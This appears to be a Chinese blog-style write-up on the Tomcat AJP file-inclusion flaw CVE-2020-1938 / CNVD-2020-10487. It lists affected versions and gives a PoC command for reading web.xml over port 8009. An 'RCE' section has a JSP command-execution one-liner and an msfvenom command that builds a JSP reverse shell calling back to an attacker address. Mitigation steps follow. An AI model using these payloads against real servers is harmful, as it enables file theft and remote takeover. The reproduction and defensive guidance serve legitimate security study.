






# CNVD-2020-10487(CVE-2020-1938)tomcat ajp 文件读取漏洞

# 漏洞简介

   Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。由于Tomcat默认开启的AJP服务（8009端口）存在一处文件包含缺陷，攻击者可构造恶意的请求包进行文件包含操作，进而读取受影响Tomcat服务器上的Web目录文件。

---

# 影响范围

- Apache Tomcat 6
- Apache Tomcat 7 < 7.0.100
- Apache Tomcat 8 < 8.5.51
- Apache Tomcat 9 < 9.0.31

---

# 环境搭建

   之前代码审计的时候安装了apache tomcat/9.0.29还存在这个漏洞，所以索性复现一下漏洞。这里环境搭建很简单，去官方网站下载tomcat下载安装就好了，不会随便百度一篇文章看看，笔者这里就不多说什么了。



---

# 漏洞复现

`python poc.py -p 8009 -f "/WEB-INF/web.xml" 127.0.0.1`  


---

# 骚操作 RCE

   利用大佬hero0修改poc脚本，修改成了python3版本。  
增加了 –rce选项，会使用jsp渲染执行文本中包含的命令，默认读取文件模式。  
可以配合上传漏洞进行漏洞利用。  
命令执行一句话:

```plain
<%out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec("whoami").getInputStream())).readLine());%>
```

  
  
**利用msf反弹shell**（也是需要配合上传漏洞）  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4444 > shell.txt`  
  


---

# 漏洞防护

如果相关用户暂时无法进行版本升级，可根据自身情况采用下列防护措施。

一、若不需要使用Tomcat AJP协议，可直接关闭AJP Connector，或将其监听地址改为仅监听本机localhost。

具体操作：

（1）编辑 /conf/server.xml，找到如下行（ 为 Tomcat 的工作目录）：

`<Connector port="8009"protocol="AJP/1.3" redirectPort="8443" />`  
（2）将此行注释掉（也可删掉该行）：

`<!--<Connectorport="8009" protocol="AJP/1.3"redirectPort="8443" />-->`

（3）保存后需重新启动Tomcat，规则方可生效。

二、若需使用Tomcat AJP协议，可根据使用版本配置协议属性设置认证凭证。

使用Tomcat 7和Tomcat 9的用户可为AJP Connector配置secret来设置AJP协议的认证凭证。例如（注意必须将YOUR\_TOMCAT\_AJP\_SECRET更改为一个安全性高、无法被轻易猜解的值）：

`<Connector port="8009"protocol="AJP/1.3" redirectPort="8443"address="YOUR_TOMCAT_IP_ADDRESS" secret="YOUR_TOMCAT_AJP_SECRET"/>`

使用Tomcat 8的用户可为AJP Connector配置requiredSecret来设置AJP协议的认证凭证。例如（注意必须将YOUR\_TOMCAT\_AJP\_SECRET更改为一个安全性高、无法被轻易猜解的值）：

`<Connector port="8009"protocol="AJP/1.3" redirectPort="8443"address="YOUR_TOMCAT_IP_ADDRESS"requiredSecret="YOUR_TOMCAT_AJP_SECRET" />`

---

# 文件资料下载

文中所以资料都在这里。  
链接: <https://pan.baidu.com/s/101wFmK1J0OGYRC383fdBBA> 提取码: xg4s

---

# 参考

<https://www.t00ls.net/thread-55061-1-1.html>  
<https://www.t00ls.net/viewthread.php?tid=55062&extra=&page=1>  
<https://github.com/nibiwodong/CNVD-2020-10487-Tomcat-ajp-POC>\*\*
